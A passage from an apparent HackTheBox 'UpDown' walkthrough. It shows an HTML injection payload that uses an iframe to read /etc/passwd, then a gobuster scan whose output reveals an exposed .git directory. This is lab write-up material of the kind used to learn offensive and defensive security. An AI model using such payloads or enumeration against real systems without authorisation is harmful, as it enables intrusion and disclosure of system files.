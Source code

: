 No relevant information.

Then I started going for funky payloads:


```html

</textarea>

<iframe src="file:///etc/passwd" width="400" height="400">

<textarea>
```

With some results:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/1_5_payload.png" width="90%"/>
</p>


But couldn't get the most out of it... I run gobuster again over the /dev directory and got some interesting results.

```bash
gobuster dir -u "http://siteisup.htb/dev/" --wordlist=/usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 30 -x txt,php --exclude-length 277 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://siteisup.htb/dev/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          277
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/09/10 13:26:10 Starting gobuster in directory enumeration mode
===============================================================
/.git                 (Status: 301) [Size: 315] [--> http://siteisup.htb/dev/.git/]
/.git/index           (Status: 200) [Size: 521]                                    
/.git/HEAD            (Status: 200) [Size: 21]                                     
/.git/config          (Status: 200) [Size: 298]                                    
/.git/logs/           (Status: 200) [Size: 1143]                                   
/index.php            (Status: 200) [Size: 0]   
```
